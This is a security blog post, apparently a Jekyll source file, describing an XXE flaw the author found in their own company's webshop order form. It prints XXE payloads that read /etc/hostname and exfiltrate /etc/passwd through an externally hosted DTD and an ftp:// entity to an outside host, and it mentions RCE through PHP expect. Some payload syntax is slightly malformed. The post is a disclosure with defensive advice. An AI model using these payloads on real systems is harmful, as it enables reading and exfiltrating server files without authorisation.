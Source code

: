 ```yaml
---
layout: post
title: "Exploiting XXE to gain LFI"
date: 2020-07-19
---
```


## Topic
Today I'd like to talk to you about a vulnerability I've found some years ago in our webshop application.  
The application itself is nothing fancy. It's just a form which creates an order with the XML attributes you submit to it.

## Structure
The UI doesn't really look appealing or UX-friendly, but it's the backend that we're interested   
![Offlinebestellung](/assets/images/offlinebestellung.png "Offlinebestellung")

From our documentation I knew how the XML-File needs to be structured to be valid.
```
<ORDERIN>
  <KOPF>
    <Sender>Customer Nr.</Sender>
    <KopfText1>n/a</KopfText1>
    <IhrZeichen>n/a</IhrZeichen>
    <Bestelldatum>12.07.2020</Bestelldatum>
    <Lieferdatum>13.07.2020</Lieferdatum>
    <KopfKommission>
      <Kommission>Commission Nr.</Kommission>
    </KopfKommission>
  </KOPF>
  <POSITION>
      <Artikel-Nr>Article Nr.</Artikel-Nr>
      <BestellMenge>quantity</BestellMenge>
      <Postext>
        <Texte>n/a</Texte>
      </Postext>
  </POSITION>
</ORDERIN>
```

## The vulnerability
Many XML-Parsing libraries aren't configured correctly and let you define External Entities.  
Which in itself aren't that useless. They let you, for example, define structure of legal elements and attributes for your XML (also known as Document Type Definition - dtd.)

The vulnerability itself is called XXE (XML External Entity) - [Read more
here](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing)

It turned out that the XML-Parser wasn't configured at all. DTD and external entities were allowed (even to foreign addresses).


### Recon 
I've tried some elements to see if they would give me any sort of feedback.
Most of them failed with the following message:  
<img src="/assets/images/xxe-failed.png" width="450px">

After some trial and error I've found that the elements <Kommission> and <IhrZeichen> were valid payload holders.

### Getting the hostname
For basic stuff you don't need some fancy dtd stuff. 
```
<?xml version=1.2" encoding="ISO-8859-1"> ?>
<!DOCTYPE foo [ <!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM "file://etc//hostname" >]>
...
      <Kommission>&xxe;</Kommission>
...
```

This request returned the following result:  (hostname of the server)  
![Hostname](/assets/images/hostname.png "blackend for reasons.."

Getting the hostname of a server is already pretty great.
But currently we can just report a LFI vulnerability.

### Grabbing interesting stuff
The problem with the reflected XXE is, that we can just rely on the max input settings of the HTML/XML form.
There was no way to return more than one line (cause of \r\n chars).   
If you can't reflect something, why not just redirect the output somewhere else?

Multiple protocols can be misused to do just this. (Like finger (lol) or
http/ftp).  
Without much playing around I've decided to use ftp to grab data from files with more than one line.

There's no magic behind it. I just spun up a quick ftp server and listened for incoming traffic and also alter the XML.

Reading files is quite simple. All I had to do, is setting up a HTTP server with a **.dtd** file  
in its root directory and wait for the victim to pick it up and process it.

```
python -m 'SimpleHTTPServer'
```
DTD File:
```
<!ENTITY % a SYSTEM "file:///etc/passwd">
<!ENTITY % b "<!ENTITY ftp SYSTEM 'ftp://i-401.xyz/%a;'>"
```
XML:
```
<?xml version=1.2" encoding="ISO-8859-1"> ?>
<DOCTYPE XXE [
<!ENTITY % dtd SYSTEM "http://i-401.xyz/xxe.dtd"
...
<IhrName1>%dtd;</IhrName1>
<Kommission>%ftp;</Kommssion>
```

I used the following ruby ftp stub to extract the passwd file.  
[xxe-ftp-server](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb)

If everything worked correctly, I should now see the content of /etc/passwd in my ftp logs.  
<img src="/assets/images/passwd.png" width="150px">

### How to get RCE
XXE is a well documented vulnerability and lot of resources are out there for gaining RCE.
I've decided that all I needed was proof that I can ship data from the server without compromising it.

To gain RCE you need to pray to your god(s) that the php expect module is activated.  
[PHP expect module](https://www.php.net/manual/de/book.expect.php)

It isn't on by default and so you most likely at a disadvantage.

## Conclusion
- Disable External Entities if not needed.  
- If needed - whitelist the sites hosting dtd.
- Firewall your Servers

Always test your own servers before the baddies do. :)


## Reward
A cold and wet handshake.



